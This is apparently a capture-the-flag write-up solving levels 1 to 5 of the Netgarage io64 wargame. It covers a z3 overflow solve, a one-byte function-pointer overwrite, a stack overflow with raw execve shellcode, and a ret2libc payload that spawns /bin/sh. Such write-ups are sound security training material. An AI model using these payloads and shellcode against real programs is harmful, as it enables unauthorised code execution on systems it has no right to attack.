 # Netgarage io64

## Level1

Running the program greets us asking us to enter a password. I don't know what the password is, so lets run this programming using **ltrace** to see what library calls the function makes.

`man ltrace` shows:
```
ltrace is a program that simply runs the specified command until it exits.  It intercepts and records the dynamic library calls which are called by the executed process
```

Running this we see that there is a call to strcpy, which checks our entered string with "Administ". Entering this into the program pops a shell, and we can get the password to the next level
`cat /home/level2/.pass`

## Level2

Supplied source
```C
#include <unistd.h>


int main(int i, long *a) {
    if(a[1] * 0x1064deadbeef4601u == 0xd1038d2e07b42569u)
        execl("/bin/sh", "sh", 0);
    return 0;
}

```

This challenge isn't so much as a binary challenge, as a math challenge. 
The program takes the first argument, as a number, multiplies it by a large number, and checks if the answer is *0xd1038d2e07b42569u*.

But this multiplication includes integer overflow, and all the fun that comes with that.

Instead of doing this by hand, we can use a symbolic solver, such as z3, pass in the arguments for the equation, and it should spit out the solution.

```

sudo apt install python-z3
python
>>> from z3 import *
>>> s = Solver()
>>> x = BitVec('x', 64)
>>> s.add(x * 0x1064deadbeef4601 == 0xd1038d2e07b42569)
>>> s.check()
sat
>>> s.model()
[x = 8319100071223652201]
>>> hex(8319100071223652201)
'0x7373617034366f69'
>>> '7373617034366f69'.decode('hex')
'ssap46oi'
>>> '7373617034366f69'.decode('hex')[::-1]
'io64pass'
```
Ahh so the solution is to enter io64pass backwards. Entering this as the argument to the program pops a shell for us.
We can now move on to the next challenge.

## Level3

Program source

```C
#include <stdio.h>
#include <string.h>
#include <unistd.h>
 
struct {
        char buf[16];
        void (*fp)(int i);
} opts;
 
void f(int i) {
        i != 0xdeadbeef && puts("FAIL!") || puts("WIN!") && execl("/bin/sh", "sh", NULL);
}
 
int main(int argc, char *argv[]) {
        int i;
        opts.fp = f;
        for(i = 0; i <= 16 && argv[1][i]; i++)
                opts.buf[i] = argv[1][i];
        opts.fp(0);
}
```

From inspection, the program appears to copy __17__ bytes of data from the argument variable, into a __16__ byte string stored in the struct opts.

It then calls `opts.fp(0)`, Which will do nothing as **i == 0 != 0xdeadbeef**.

Now as we are copying 17 bytes into a 16 byte buffer, we will overwrite one byte of the function pointer.
Now what should we overwrite it to? Well since the memory is stored in a **little endian** format, the last byte is the least significant byte.

Since it is the least significant byte, we can't jump somewhere far away, like libc. We have to jump to somewhere in the same code region.

Well the win/execve code is at *0x40057c*. So if we can change the last byte to be 7c, it should jump past the `i == 0xdeadbeef` condition, and pop a shell.

So our payload will be `'A' * 16 + '\x7c'.`
Running this into the program prints WIN!, then pops a shell.

**Yay!**

## Level4

Program source

```C
#include <string.h>
 
int dobug(char *arg) {
        char buf[8];
        strcpy(buf, arg);
}
 
int main(int argc, char *argv[]) {
        return dobug(argv[1]);
}
```

So... inspecting this program, we see that it calls a function `dobug()` which copies (`strcpy`) a string from the argument, into a buffer.

`strcpy` doesn't check length, so it will keep copying until a null byte. 

We can fuzz the input to see when we can overrite the return address. Since this is a 64 bit system it takes more bytes than usual.
After entering 24 'A's I get a Segmentation fault.

So we have 24 bytes before we overwrite the return address.

We can also run the program in gdb, after the program returns we can view the registers with **info registers**
` RAX  0x7fffffffdc10 ◂— 'AAAAAAAAAAAAA'`
We see that our string in in the rax register

We can also use *ropper* to find possible rop chains.
I find `Call RAX : 0x400477`

So we need shell code to fill in the buffer. We need it to be less than 24 bytes. 
I found this push-execve shell code that is 23 bytes long

`"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"`

However if we just use this, since the shellcode is on the stack, it will overwrite itself. (It contains the push command several times). What we can do is add one instruction \x5c (pop esp), which will pivot the stack, so that the pushes are moved elsewhere.

Let's construct our payload

```python
attack = "\x5c" #pop esp
attack += "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05" #shellcode
attack += "\x77\x04\x40" #return addresss

```

## Level5

Code is
```C
#include <string.h>

int dobug(char *arg) {
	char buf[8];
	strcpy(buf, arg);
}

int main(int argc, char *argv[]) {
	return dobug(argv[1]);
}
//no aslr + nx

//binsh = 0x00482cf5
//binsh = buf[8]
//poprdi = 0x400b60
//syste = 0x401550
```

Initial inspection on the provided binary shows that *ASLR* is disabled. I also notice that the size of the file is massive, and upon closer inspection of the disassembly, we see that the libc is dynamically linked into the program.

This means we can easily do a ret2libc attack on the binary.
A good function to jump to is do_system, we can find the address of do_system using objdump
`objdump -d ./level05 | grep '<do_system>'` 

So do_system is at the address **\xef\x15\x40**

Fuzzing the input with *A*'s we can find the breaking point of the program. Like before, there are 24 bytes before the return address of the program. 

Do_system takes one parameter, which is the path to the program it needs to run.
Let's run the program in gdb and see what we can do. Similarly to the previous challenge, the string is already in rdi. So what we can do is insert "/bin/sh;" followed by some padding, and then our return address. 

Let's construct our payload then

```python
attack = "/bin/sh;" #/bin/sh;
attack += "A" * (24 - 8) #padding for return address
attack += "\xef\x15\x40" #return address into do_system
print attack
```


